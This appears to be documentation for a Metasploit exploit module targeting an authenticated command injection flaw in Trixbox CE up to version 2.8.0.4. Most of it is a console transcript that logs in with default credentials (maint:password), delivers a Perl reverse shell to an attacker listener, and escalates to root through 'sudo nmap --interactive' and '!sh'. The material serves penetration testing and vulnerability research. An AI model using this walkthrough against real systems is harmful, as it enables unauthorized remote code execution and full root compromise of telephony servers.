 ## Introduction

This module exploits a post-authentication OS command injection vulnerability found in Trixbox CE <= v2.8.0.4 which may allow arbitrary command execution on the underlying operating system.

## Setup

Used the Trixbox CE v2.8.0.4 ISO which is available for downloading on sourceforge:

* Trixbox CE v2.8.0.4 ISO: https://netcologne.dl.sourceforge.net/project/asteriskathome/trixbox%20CE/trixbox%202.8/trixbox-2.8.0.4.iso

## Targets

```
Id  Name
--  ----
0   Trixbox CE <= v2.8.0.4
```

## Usage

Trixbox CE v2.8.0.4 is tested below.

```
msf5 > use exploit/unix/webapp/trixbox_ce_auth_rce
msf5 exploit(unix/webapp/trixbox_ce_auth_rce) > set rhosts 192.168.1.6
rhosts => 192.168.1.6
msf5 exploit(unix/webapp/trixbox_ce_auth_rce) > show options

Module options (exploit/unix/webapp/trixbox_ce_auth_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  password         yes       Password to login with
   HttpUsername  maint            yes       User to login with
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.1.6      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80               yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                          no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Trixbox CE <= v2.8.0.4


msf5 exploit(unix/webapp/trixbox_ce_auth_rce) > show payloads

Compatible Payloads
===================

   #  Name                       Disclosure Date  Rank    Check  Description
   -  ----                       ---------------  ----    -----  -----------
   0  cmd/unix/bind_perl                          manual  No     Unix Command Shell, Bind TCP (via Perl)
   1  cmd/unix/bind_perl_ipv6                     manual  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2  cmd/unix/reverse_perl                       manual  No     Unix Command Shell, Reverse TCP (via Perl)
   3  cmd/unix/reverse_perl_ssl                   manual  No     Unix Command Shell, Reverse TCP SSL (via perl)

msf5 exploit(unix/webapp/trixbox_ce_auth_rce) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf5 exploit(unix/webapp/trixbox_ce_auth_rce) > set lhost 192.168.1.8
lhost => 192.168.1.8
msf5 exploit(unix/webapp/trixbox_ce_auth_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.8:4444
[*] 192.168.1.6:80 - Authenticating using "maint:password" credentials...
[+] 192.168.1.6:80 - Authenticated successfully.
[*] Executing the payload...
[*] Command shell session 1 opened (192.168.1.8:4444 -> 192.168.1.6:34227) at 2020-04-28 08:58:32 -0400

id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
sudo nmap --interactive

Starting Nmap V. 4.76 ( http://nmap.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
